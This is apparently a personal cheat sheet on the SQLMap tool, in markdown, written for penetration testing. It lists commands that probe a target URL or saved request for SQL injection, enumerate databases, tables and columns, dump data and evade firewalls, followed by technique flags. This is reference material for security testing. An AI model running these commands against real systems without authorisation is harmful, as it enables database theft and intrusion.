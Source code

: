 ```yaml
---
title: SQLMap
tags:
  - security
  - sqli
  - web
date: 2024-01-28 14:15:56 -0600
updated: 2024-03-29 23:31:52 -0500
---
```


````bash
# Extended Help
sqlmap -hh
````

#### Test Website for Vulnerability

````bash
# Increase Aggressiveness of Scan
sqlmap -u "<URL>" --level=5 --risk=3

sqlmap -r <request-file> --string="<text-if-query-true>"

# POST Request
sqlmap -u "<URL>" --data="user=name&password=pass" -p "user,password"
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

#### Retrieve Database Names

````bash
sqlmap -u <URL> --dbs

# Return DB that is currently used
sqlmap -u <URL> --current-dbs
````

#### All Tables from Database

````bash
sqlmap -u <URL> -D <db-name> --tables
````

#### Columns from Table

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

#### View Data from Column

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

**Flags**  
`-u URL`: Target URL  
`--level=5`: Through Scan (Default : 1)  
`--risk=3`: Risk Level (Default : 1)  
`-r filename`: Provide the request file  
`--random-agent`: Request blocked by firewall  
`--dump`: Exploit Vulnerability Save result to file

`--string "string"`: String present on result page (Required for Blind Injection)  
`--dbms=dbms-name`: Pass Database Type (MySQL, PostgreSQL, etc.)

`--technique` : BEUSTQ  
`B`: Boolean-based blind  
`E`: Error-based  
`U`: Union query-based  
`S`: Stacked queries  
`T`: Time-based blind  
`Q`: Inline queries
